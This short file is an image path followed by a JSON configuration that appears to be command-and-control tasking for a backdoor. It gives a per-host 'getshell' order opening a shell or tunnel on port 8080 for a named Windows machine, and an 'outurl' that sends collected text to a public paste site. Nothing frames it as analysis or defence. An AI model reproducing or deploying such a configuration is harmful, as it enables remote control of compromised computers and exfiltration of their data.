 
{
    "WIN-MK2U04MLL3I": {
        "getshell": "r t 127.0.0.1 8080~open"
    },
    "all": {
        "outurl": "http://kl1p.com/oopkc?save=true&id=&type=plain&name=oopkc&nid=&param=&client=web&text="
    }
}
